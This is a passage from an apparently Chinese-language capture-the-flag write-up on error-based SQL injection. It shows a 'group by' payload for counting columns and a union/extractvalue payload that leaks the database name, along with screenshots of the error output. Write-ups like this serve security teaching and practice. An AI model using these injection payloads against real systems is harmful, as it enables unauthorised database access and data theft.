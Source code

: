 - 发现没有回显位，但有报错提示，因此尝试报错注入

## 2. extractValue()报错注入

先进行字段判断，使用 " 1' group by 1# " 来判断，依次1，2，3.....

```sql
1' group by 1#
```

出错回显

![image-20250806223013038](nssctf1.assets/image-20250806223013038.png)

错误回显

![image-20250806223125682](nssctf1.assets/image-20250806223125682.png)

- 说明有三个字段，爆库名

```csharp
1' union select 1,extractvalue(1,concat('~',(select database()))),3#
```
